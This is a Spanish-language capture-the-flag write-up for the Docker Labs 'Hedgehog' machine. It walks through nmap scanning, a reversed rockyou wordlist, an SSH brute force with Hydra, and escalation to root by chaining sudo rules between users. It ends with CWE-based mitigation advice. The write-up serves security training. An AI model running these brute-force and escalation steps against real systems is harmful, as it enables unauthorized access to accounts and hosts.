

| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Muy Fácil   |
| IP de la Máquina    | 172.17.0.2  |
| Fecha de resolución | 03/10/2026  |
# 📑 WRITEUP: HEDGEHOG

> ℹ️ ****RESUMEN****
> - **IP Objetivo:** `172.17.0.2`
> - **Sistema Operativo:** Linux 🐧
> - **Descripción:** Laboratorio para practicar fuerza bruta SSH y escalada de privilegios mediante movimiento entre usuarios. 🔑
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.17.0.2
```


* **Diagnóstico:** TTL = `64`. Confirmamos que nos enfrentamos a un host **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para identificar las vías de acceso expuestas.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                                  |
| :------- | :------- | :------------------ | :--------------------------------------------- |
| `22/TCP` | SSH      | OpenSSH 9.6p1       | 🔐 Entrada persistente (Fuerza Bruta Dirigida) |
| `80/TCP` | HTTP     | Apache httpd 2.4.58 | 🌐 Servidor Web Activo (Fuzzing de pistas)     |

#### Comando de Nmap utilizado:

```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.17.0.2
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

### 🌐 Fuzzing Web y Descubrimiento
Al explorar la aplicación web principal (`http://172.17.0.2`), simplemente se nos muestra un palabra: **tails**


En este caso, al intentar un ataque de fuerza bruta normal, el mismo no da resultado, por lo cual manipularemos el archivo`rockyou.txt` (Suponiendo que tails pueda referir a **tail**, comando de Linux utilizado para mostrar las últimas líneas o el final de un archivo de texto).

### 🛠️ Manipulación Inteligente del Diccionario
Para evitar ataques ineficientes y masivos, depuramos el archivo `rockyou.txt` aplicando comandos nativos de Linux como `tac` (para invertir el orden de las líneas) y `sed` para generar una wordlist personalizada:

```bash
$ cp /usr/share/wordlists/rockyou.txt .
$ tac rockyou.txt >> invertido.txt
$ sed -i 's/ //g' invertido.txt
```


### 🔑 Ataque de Fuerza Bruta Directo (SSH)
Lanzamos **Hydra** contra el puerto 22 mapeando el usuario descubierto y apuntando a nuestro diccionario recortado y optimizado:

```bash
hydra -l tails -P invertido.txt ssh://172.17.0.2
```


> ✅ ****Acceso Inicial Garantizado****
> - **Usuario:** `tails`
> - **Contraseña:** `3117548331`

Establecemos la conexión mediante SSH con las credenciales obtenidas:
```bash
ssh tails@172.17.0.2
```


---

## 👑 FASE 3: ESCALADA DE PRIVILEGIOS

### 🕵️ Análisis de Permisos Sudo
Consultamos las directivas de ejecución privilegiada asignadas a nuestro rol actual:
```bash
sudo -l
```


> 📝 **Escalada de privilegios · encadenada**
> El sistema revela que nuestro usuario tiene permitido ejecutar un binario nativo del entorno bajo privilegios de **root** sin necesidad de contraseña (`NOPASSWD`). Pero requiere que seamos el usuario `sonic`

Teniendo en cuenta que necesitamos ser `sonic` para poder escalar a `root` ejecutamos:

```bash
sudo -u sonic /bin/bash
```

Comprobamos que nos hemos convertido en usuario `sonic`:


### ⚔️ Explotación y Obtención de la Shell 

`sonic` puede ejecutar cualquier comando como cualquier usuario, entonces:

```bash
sudo -u root /bin/bash
```

Comprobamos que nos hemos convertido en el superusuario:
```bash
whoami
```



```bash
# Output de la terminal comprometida:
root
```

> ✅ ****MÁQUINA COMPLETADA****
> Entorno totalmente comprometido de manera exitosa. Escalamos a **`root`** explotando de forma local las directivas permisivas de `sudo` tras un acceso inteligente por SSH.

---

## 🛠️ FASE 4: RECOMENDACIONES DE MITIGACIÓN

 >[!Danger] CWE-250

>[!Danger] Crítica
>Permisos sudo excesivos permiten saltar de `tails` a `sonic` y de `sonic` a `root` (sonic puede ejecutar cualquier comando como cualquier usuario)
 
 >[!Todo] Mitigación
 >Auditar de forma recurrente las políticas de `/etc/sudoers`. Evitar la delegación indiscriminada del parámetro `NOPASSWD` a utilidades del sistema capaces de invocar shells secundarias.

>[!Warning] CWE-521

>[!Warning] Alta
>La contraseña está en variantes de rockyou, accesible por SSH mediante fuerza bruta.

>[!Todo] Mitigación
>Instalar y configurar herramientas defensivas como **Fail2Ban** en el servicio SSH para mitigar y bloquear de forma automática direcciones IP sospechosas que realicen ataques por diccionario de manera consecutiva.

>[!Info] CWE-200

>[!Info] Baja
>La web muestra el nombre de usuario `tails`, dando a entender una pista para el ataque de fuerza bruta

>[!Todo] Mitigación
>Asegurar que ninguna ruta pública del servidor HTTP filtre o aloje archivos de texto con nombres de usuarios, lógicas de contraseñas ni pistas de configuración interna.
